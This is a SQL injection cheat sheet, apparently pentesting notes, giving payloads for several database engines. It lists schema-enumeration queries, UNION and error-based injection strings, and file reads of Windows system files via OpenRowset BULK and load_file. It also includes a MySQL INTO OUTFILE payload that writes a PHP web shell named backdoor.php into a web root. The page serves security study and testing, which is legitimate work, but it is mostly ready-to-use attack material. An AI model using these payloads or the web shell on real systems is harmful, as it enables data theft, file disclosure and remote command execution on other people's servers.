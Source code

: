 ### Database contents

```sql
# Oracle
SELECT * FROM all_tables  
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
SELECT 'test',1,null FROM dual

# MSSQL
SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
select null,concat_ws(0x3a,table_schema,table_name,column_name),null from information_schema.columns for json auto--
and 1=(select concat_ws(0x3a,table_schema,table_name,column_name)a from information_schema.columns for json auto)-- 

# PostgreSQL
SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

# MySQL
SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

#SQLite
SELECT sql FROM sqlite_schema
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' # Use limit X+1 offset X, to extract all tables.
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

### Reading & Writing files

```sql
# MSSQL
## Permissions: The BULK option requires the ADMINISTER BULK OPERATIONS or the ADMINISTER DATABASE BULK OPERATIONS permission.
... union select null,(select x from OpenRowset(BULK ’C:\Windows\win.ini’,SINGLE_CLOB) R(x)),null,null
... and 1=(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x))-- 

# MySQL
UNION all select 1, 2, load_file(C:/Windows/System32/drivers/etc/hosts)
UNION all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

# PostgreSQL (traditional file)
COPY <table_name> from <file_name>
COPY <table_name> to <file_name>

CREATE temp table awae (content text);
COPY awae from $$c:\awae.txt$$;
SELECT content from awae;
DROP table awae;
```


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec
